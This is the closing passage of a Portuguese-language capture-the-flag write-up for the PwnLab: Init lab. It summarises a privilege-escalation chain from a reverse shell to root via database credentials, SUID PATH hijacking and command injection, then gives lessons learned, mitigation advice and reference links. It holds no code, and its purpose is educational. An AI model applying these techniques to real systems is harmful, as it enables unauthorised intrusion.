## Fluxo Completo de Privilege Escalation:

```text
www-data (shell reverso) 
    ↓ (credenciais do banco de dados)
kane 
    ↓ (PATH hijacking via msgmike SUID) 
mike 
    ↓ (command injection via msg2root SUID) 
root
```

## Lições Aprendidas do PwnLab:

1. **Validação de Cookies**: Cookies não devem ser usados para incluir arquivos sem sanitização    
2. **Defesa em Profundidade**: Apenas validar uploads não é suficiente quando existem outras vulnerabilidades
3. **Sanitização de Paths**: Sempre sanitizar caminhos de arquivos, especialmente em funções de inclusão
4. **Configuração do Servidor**: Diretórios de upload não devem estar acessíveis para inclusão via LFI

## Recomendações de Mitigação:

1. **Validar valores de cookies**: Implementar lista branca de valores permitidos    
2. **Armazenar uploads fora do root**: Usar diretórios não acessíveis via web
3. **Desabilitar funções perigosas**: `allow_url_include = Off` no php.ini
4. **Implementar WAF**: Web Application Firewall para detectar path traversal
5. **Usar sessions em vez de cookies**: Para dados que controlam comportamento da aplicação

---
# Referências

## Ferramentas Utilizadas
### Ferramentas de Escaneamento e Enumeração

- **Nmap**: [Documentação Oficial](https://nmap.org/docs.html)
- **Metasploit Framework**: [Guia de Usuário](https://docs.rapid7.com/metasploit/)
- **WMAP**: [Guia no GitHub](https://github.com/rapid7/metasploit-framework/wiki/Web-Scanning-with-WMAP)

### Ferramentas de Exploração Web

- **Burp Suite**: [Documentação Oficial](https://portswigger.net/burp/documentation) 

### Ferramentas de Pós-Exploração

- **Netcat**: [Manual Completo](https://nc110.sourceforge.io/)
- **Python pty module**: [Documentação Python](https://docs.python.org/3/library/pty.html)


## Vulnerabilidades e Técnicas
### Local File Inclusion (LFI)

- **OWASP - File Inclusion**: [https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- **PortSwigger - File Path Traversal**: [https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)
- **PHP Wrappers**: [https://www.php.net/manual/en/wrappers.php](https://www.php.net/manual/en/wrappers.php)

### File Upload Vulnerabilities

- **OWASP - Unrestricted File Upload**: [https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- **Polyglot Files**: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%2520Insecure%2520Files)

### Privilege Escalation Linux

- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)
- **Linux Privilege Escalation Checklist**: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%2520and%2520Resources/Linux%2520-%2520Privilege%2520Escalation.md)
- **SUID/SGID Exploitation**: [https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

## Laboratórios e Walkthroughs

### Laboratório PwnLab

- **PwnLab: Init:** https://www.vulnhub.com/entry/pwnlab-init,158/

### Walkthrough do PwnLab

- **Hacking Articles - PwnLab CTF Challenge**: [https://www.hackingarticles.in/penetration-testing-pwnlab-ctf-challenge/](https://www.hackingarticles.in/penetration-testing-pwnlab-ctf-challenge/)  
    _Walkthrough detalhado do laboratório PwnLab com múltiplas abordagens de exploração_
